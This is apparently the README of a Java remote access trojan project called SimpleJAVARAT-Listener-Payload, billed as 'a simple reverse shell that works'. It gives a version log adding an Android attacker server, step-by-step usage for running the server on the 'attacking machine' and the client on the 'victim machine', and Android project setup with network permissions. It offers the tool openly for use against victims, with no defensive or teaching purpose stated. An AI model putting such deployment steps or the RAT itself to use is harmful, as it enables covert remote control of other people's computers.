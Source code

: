 ########################
~~~~~~~~~~~~~~~~~~~~~~~~~~
SimpleJAVARAT-Listener-Payload 
~~~~~~~~~~~~~~~~~~~~~~~~~~
A simple reverse shell that works. 

@
Or I. Benet//
IT Specialist//
M.IS UoP - Cyber Security - Epsilon Pi Tau//
B.S. Troy - Chemistry - Mathmatics//
@
####################

v1.1
ADDED ANDROID SERVER(ATTACKER)

v1:
CLI RAT SERVER(ATTACKER) + CLIENT(VICTIM)



Regular USAGE:
  @@@@
  1. Start the RATSERVER ON ATTACKING MACHINE (command: java RATSERVER)
  @@@@
  2. Start the RATCLIENT on VICTIM MACHINE (command: java <hostip>)
  @@@@
.............................................................................................................................

Android USAGE:
@@@@
1. Create new Android Project
@@@@
2. Create a Relative layout with scrollView , editText, and button.
@@@@
3. Copy classes from AndroidServer folder into your project
@@@@
4. add     <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE" />
    
    to manifest
@@@@
5. Start the Application on an Android Device or VM
@@@@
6. Start the RATCLIENT on VICTIM MACHINE
